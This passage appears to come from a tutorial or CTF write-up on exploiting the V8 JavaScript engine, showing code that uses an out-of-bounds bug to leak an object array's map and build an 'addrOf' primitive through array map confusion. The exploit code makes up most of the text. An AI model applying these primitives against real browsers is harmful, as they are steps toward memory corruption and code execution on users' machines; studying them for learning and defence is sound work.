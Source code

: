 to leak the `obj_arr`'s map, we can calculate its offset using the map we previously leaked or make use of the OOB to read it, both works

```javascript
var obj_arr_map = itof(ftoi(float_arr_map) + 128n);
console.log("[*] obj_arr_map: 0x" + ftoi(obj_arr_map).toString(16));
var obj_arr_map = itof(ftoi(float_arr[13]) >> 32n);
console.log("[*] obj_arr_map: 0x" + ftoi(obj_arr_map).toString(16));
dp(obj_arr)
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### AddressOf Primitive

now alleviating OOB, we can get an address of an object,

```javascript
function addrOf(obj) {
    // continue...
}
```

first, we'll put the object we want the address of within the array

```javascript
obj_arr[0] = obj;
```

then we'll change the `obj_array`'s map into a floating one

```javascript
float_arr[13] = itof(ftoi(float_arr_map) << 32n);
```

then, accessing the elements of the `obj_array` will treated as a raw floating point instead of an object address that will be dereferenced, again because of pointer tagging, the treated raw float is 8 bytes, though the object's address is only the lower 32 bits.

```javascript
let addr = Number(ftoi(obj_arr[0]) & 0xffffffffn);
```

lastly, restore the map to the original object map to perform cleanup

```javascript
float_arr[13] = itof(ftoi(obj_arr_map) << 32n);
return BigInt(addr);
```

we can try if this is working
